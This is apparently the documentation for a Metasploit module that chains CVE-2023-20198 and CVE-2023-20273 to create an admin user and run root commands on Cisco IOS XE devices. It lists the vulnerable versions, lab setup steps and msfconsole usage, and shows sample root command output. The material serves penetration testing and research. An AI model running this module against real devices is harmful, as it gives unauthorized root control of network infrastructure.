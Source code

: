 ## Vulnerable Application
This module leverages both CVE-2023-20198 and CVE-2023-20273 against vulnerable instances of Cisco IOS XE
devices which have the Web UI exposed. An attacker can execute arbitrary OS commands with root privileges.

This module leverages CVE-2023-20198 to create a new admin user, then authenticating as this user,
CVE-2023-20273 is leveraged for OS command injection. The output of the command is written to a file and read
back via the webserver. Finally the output file is deleted and the admin user is removed.

The vulnerable IOS XE versions are:

16.1.1, 16.1.2, 16.1.3, 16.2.1, 16.2.2, 16.3.1, 16.3.2, 16.3.3, 16.3.1a, 16.3.4,
16.3.5, 16.3.5b, 16.3.6, 16.3.7, 16.3.8, 16.3.9, 16.3.10, 16.3.11, 16.4.1, 16.4.2,
16.4.3, 16.5.1, 16.5.1a, 16.5.1b, 16.5.2, 16.5.3, 16.6.1, 16.6.2, 16.6.3, 16.6.4,
16.6.5, 16.6.4s, 16.6.4a, 16.6.5a, 16.6.6, 16.6.5b, 16.6.7, 16.6.7a, 16.6.8, 16.6.9,
16.6.10, 16.7.1, 16.7.1a, 16.7.1b, 16.7.2, 16.7.3, 16.7.4, 16.8.1, 16.8.1a, 16.8.1b,
16.8.1s, 16.8.1c, 16.8.1d, 16.8.2, 16.8.1e, 16.8.3, 16.9.1, 16.9.2, 16.9.1a, 16.9.1b,
16.9.1s, 16.9.1c, 16.9.1d, 16.9.3, 16.9.2a, 16.9.2s, 16.9.3h, 16.9.4, 16.9.3s, 16.9.3a,
16.9.4c, 16.9.5, 16.9.5f, 16.9.6, 16.9.7, 16.9.8, 16.9.8a, 16.9.8b, 16.9.8c, 16.10.1,
16.10.1a, 16.10.1b, 16.10.1s, 16.10.1c, 16.10.1e, 16.10.1d, 16.10.2, 16.10.1f, 16.10.1g,
16.10.3, 16.11.1, 16.11.1a, 16.11.1b, 16.11.2, 16.11.1s, 16.11.1c, 16.12.1, 16.12.1s,
16.12.1a, 16.12.1c, 16.12.1w, 16.12.2, 16.12.1y, 16.12.2a, 16.12.3, 16.12.8, 16.12.2s,
16.12.1x, 16.12.1t, 16.12.2t, 16.12.4, 16.12.3s, 16.12.1z, 16.12.3a, 16.12.4a, 16.12.5,
16.12.6, 16.12.1z1, 16.12.5a, 16.12.5b, 16.12.1z2, 16.12.6a, 16.12.7, 16.12.9, 16.12.10,
17.1.1, 17.1.1a, 17.1.1s, 17.1.2, 17.1.1t, 17.1.3, 17.2.1, 17.2.1r, 17.2.1a, 17.2.1v,
17.2.2, 17.2.3, 17.3.1, 17.3.2, 17.3.3, 17.3.1a, 17.3.1w, 17.3.2a, 17.3.1x, 17.3.1z,
17.3.3a, 17.3.4, 17.3.5, 17.3.4a, 17.3.6, 17.3.4b, 17.3.4c, 17.3.5a, 17.3.5b, 17.3.7,
17.3.8, 17.4.1, 17.4.2, 17.4.1a, 17.4.1b, 17.4.1c, 17.4.2a, 17.5.1, 17.5.1a, 17.5.1b,
17.5.1c, 17.6.1, 17.6.2, 17.6.1w, 17.6.1a, 17.6.1x, 17.6.3, 17.6.1y, 17.6.1z, 17.6.3a,
17.6.4, 17.6.1z1, 17.6.5, 17.6.6, 17.7.1, 17.7.1a, 17.7.1b, 17.7.2, 17.10.1, 17.10.1a,
17.10.1b, 17.8.1, 17.8.1a, 17.9.1, 17.9.1w, 17.9.2, 17.9.1a, 17.9.1x, 17.9.1y, 17.9.3,
17.9.2a, 17.9.1x1, 17.9.3a, 17.9.4, 17.9.1y1, 17.11.1, 17.11.1a, 17.12.1, 17.12.1a,
17.11.99SW

## Testing
This module was tested against IOS XE version 16.12.3. To test this module you will need to either:

* Acquire a hardware device running one of the vulnerable firmware versions listed above.

Or

* Setup a virtualized environment.
  * A [CSR1000V](https://www.cisco.com/c/en/us/products/routers/cloud-services-router-1000v-series/index.html) device
    can be virtualized using [GNS3](https://www.gns3.com/) and VMWare Workstation/Player. Follow the
    [Windows setup guide](https://docs.gns3.com/docs/getting-started/installation/windows) to install GNS3 and the
    [topology guide](https://docs.gns3.com/docs/getting-started/your-first-gns3-topology) to learn how GNS3 can be used.
  * A suitable firmware image for testing would be `csr1000v-universalk9.16.12.03-serial.qcow2`.
  * When setting up GNS3, run the `GNS3 2.2.43` Virtual Machine for deploying QEMU based devices.
  * Create a new CSR1000v instance as a QEMU device.
  * The CSR1000v device's first ethernet adapter `Gi1` should be connected to a Cloud device, whose adapter was bridged
    to the physical adapter on the host machine, allowing an IP address to be assigned via DHCP, and allowing the Web UI to
    be accessible to a remote attacker.
  * When the virtual router has booted up, you must enable the vulnerable WebUI component. From a serial console on
    the device:
    ```
    Router>enable
    Router#config
    Router(config)#ip http server
    router(config)#ip http secure-server
    router(config)#ip http authentication local
    router(config)#username admin privilege 15 secret qwerty
    router(config)#exit
    Router#copy running-config startup-config
    ```
  * You should now be able to access the WebUI via https://TARGET_IP_ADDRESS/webui and login with admin:qwerty

## Verification Steps
1. Start msfconsole
2. `use auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set CMD "id"`
5. `run`

## Options

### CMD
A Linux OS command to execute on the target device, e.g. `id`

### CISCO_ADMIN_USERNAME
The username of an admin account. If not set, CVE-2023-20198 is leveraged to first create a new admin account and then
the new account is then removed after the module completes.

### CISCO_ADMIN_PASSWORD
The password of an admin account. If not set, CVE-2023-20198 is leveraged to create a new admin password.

### REMOVE_OUTPUT_TIMEOUT
The maximum timeout (in seconds) to wait when trying to removing the commands output file. The output file
can be locked preventing deleting upon the first attempt, so the module will try again if needed.

## Scenarios

```
msf6 > use auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > set RHOST 192.168.86.57
RHOST => 192.168.86.57
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > set CMD "id"
CMD => id
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > show options

Module options (auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CMD                    id               yes       The OS command to execute.
   Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   REMOVE_OUTPUT_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to removing the commands output file.
   RHOSTS                 192.168.86.57    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                  443              yes       The target port (TCP)
   SSL                    true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                                   no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > run
[*] Running module against 192.168.86.57

[*] uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > run CMD="uname -a"
[*] Running module against 192.168.86.57

[*] Linux router 4.19.64 #1 SMP Wed Dec 11 10:30:30 PST 2019 x86_64 x86_64 x86_64 GNU/Linux

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) >  run CMD="cat /etc/release"
[*] Running module against 192.168.86.57

[*] # Needed for open-vm-tools
# Copyright (c) 2016 by Cisco Systems, Inc., All rights reserved.
DISTRIB_ID=Cisco
DISTRIB_RELEASE=3.10.84
DISTRIB_CODENAME=IOS-XE
DISTRIB_DESCRIPTION="Monte Vista Linux"

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > 
```
